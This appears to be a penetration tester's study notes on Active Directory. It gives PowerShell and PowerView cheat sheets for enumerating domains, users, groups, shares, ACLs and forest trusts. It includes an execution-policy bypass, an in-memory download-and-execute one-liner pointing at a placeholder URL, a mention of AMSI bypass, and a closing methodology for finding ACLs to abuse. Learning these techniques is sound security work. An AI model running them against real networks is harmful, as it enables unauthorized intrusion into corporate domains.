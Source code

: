 rSome Basic Things to know :

1. If you hear AD don't think of it as a Domain, think of it as a forest as Microsoft considers that as a Security Boundary and normally if everything works as its intended if a person compromises a domain in a forest its ideally assumed that the other forests are also compromised.
2. DNS causes a lot of issues in AD.
3. Active Directory handles Accessibility, Manageability and Interoperability's of things inside a corporations.

Now Cheat Sheets for PowerShell / PowerView AD Module.

```PowerShell
# To get full help about a certain cmdlet
Get-Help <PowershellCommand> -Full
# To get get examples of how to use the cmdlet
Get-Help <PowershellCommand> -Examples
# To get all the cmdlets
Get-Command -CommandType cmdlet
# To bypass Execution Policy
powershell -ExecutionPolicy bypass
powershell -ep bypass
# To Import a Module
Import-Module <path to the module>
# Download and execute stuff from Memory
iex (New-Object Net.WebClient).DownloadString('https://url/payload')
$wr = [System.Net.WebRequest]::Create("url")
$r = $wr.GetResponse()
```


So most of the times when we wanna try to run stuff like powerview, and so on it wont really work for us due to AMSI. So we have to basically bypasss AMSI before executing our ennumeration tools/ scripts.

After we have done that lets try to ennumerate with PowerView here is github repo to install it :

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

and then we can just transfer this file to the Windows Machine and then open powershell bypass AMSI and then import PowerView.ps1

Here is a Small Cheatsheet to Get Information via Powerview

```PowerShell
# Get Domain Information
Get-NetDomain 
Get-NetDomain -Domain ACME.Local #Get Info about a Particular Domain
# To Get Domain Policies 
Get-DomainPolicy 
# To get users in the current domain
Get-NetUser 
Get-NetUser -Filter Username # Get informaton about specific user
# Get Properties of allusers in current domain
Get-UserProperty
# To Get Group in the Domain
Get-NetGroup 
Get-NetGroup -Domain <domain> # To get group info about specific domain
Get-NetGroup -FullData # To get all data about Groups
Get-NetGroup *somethingyouwannasearch* # To get info about specific group name
# List of Computers in current domain
Get-NetComputer 
Get-NetComputer -FullData # Get all the data 
# Get Members of a Group
Get-NetGroupMember -GroupName "NameofGroup" 
# Get Membership of a Group of a user
Get-NetGroup -Username "username"
# Get local groups on a machine
Get-NetLocalGroup -ComputerName "computername" -ListGroups
# Get Logged users on a computer 
Get-NetLoggedon -Computer <Computer>
# Shares on hosts 
Invoke-ShareFinder -Verbose
#Find sensitive files on computers in the domain
Invoke-FileFinder -Verbose 
# Get all fileservers of the domain
Get-NetFileServer
# List of GPO in this domain
Get-NetGPO 
Get-NetGPO -Computer <computer> # For a specific computer
Get-NetGPOGroup
# Get OU's in a domain 
Get-NetOU -FullData 
# Get GPO's on a OU
Get-NetGPO -GPOname "<GPO from gplink attribute from Get-NetOU>"
# Get ACLs wiht an object 
Get-ObjectAcl -SamAccountName username/objectname -ResolveGUIDs
# Get the ACLs associated with the specified LDAP path to be used for search
Get-ObjectAcl -ADSpath "LDAP://CN=Domain Admins,CN\=Users,DC=dollarcorp,DC\=moneycorp,DC\=local" -ResolveGUIDs Verbose
# Searhc Intresting ACL 
Invoke-ACLScanner -ResolveGUIDs
# Get All Domain Trusts 
Get-NetDomainTrust
# Info about Forest
Get-NetForest
# All Domains in Forest
Get-NetForestDomain
Get-NetForestCatalog # GC for global catalogs
```

Methadology : 
Ennumerate Users, Computers, Domain Administrators, Eneterprise Admins, Shares and see if you can get any sensitvie information and then map the domain and draw it down and then map their trusts and then use ACL Scanners to see if you have any intresting ACLs that you can abuse.